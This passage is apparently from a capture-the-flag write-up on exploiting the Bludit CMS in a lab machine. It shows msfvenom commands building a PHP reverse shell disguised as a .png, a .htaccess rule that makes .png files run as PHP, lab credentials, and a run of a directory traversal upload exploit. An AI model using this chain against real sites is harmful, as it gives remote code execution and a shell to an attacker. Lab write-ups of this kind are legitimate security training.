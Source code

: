 ![password found](images/blunder/password.png)

We found a valid set of credentials for Bludit!

## Bludit Directory Traversal Exploit

With a set of working credentials, now it's time to return our attention to the other [exploit](https://www.exploit-db.com/exploits/48701) we found.

This exploit takes advantage of a directory traversal vulnerability in the uuid parameter to upload a malicious image payload. Coupled with a .htaccess file that helps to bypass the file extension check, we could achieve remote code execution.

Accordingly, we need to upload two files: an image payload and a htaccess file. The exploit comments contain clear instructions for generating these two files.

To generate the image payload:

```
$ msfvenom -p php/reverse_php LHOST=10.X.X.X LPORT=53 -f raw -b '"' > evil.png
$ echo -e "<?php $(cat evil.png)" > evil.png
```

To generate the .htaccess file:

```
$ echo "RewriteEngine off" > .htaccess                                                                               
$ echo "AddType application/x-httpd-php .png" >> .htaccess
```

After generating the two files, we need to edit the exploit to include the correct URL and credentials.

```
url = 'http://10.10.10.191'  # CHANGE ME                                                                             
username = 'fergus'  # CHANGE ME        
password = 'RolandDeschain'  # CHANGE ME
```

Now let's fire off the exploit.

```
$ python3 bluditexploit.py 
cookie: dh1nhhrkb929pmf9dehl4ttf46
csrf_token: c04827497f6b9f83f2ffe5b41269c5bdd5799fd5
Uploading payload: evil.png
Uploading payload: .htaccess
```
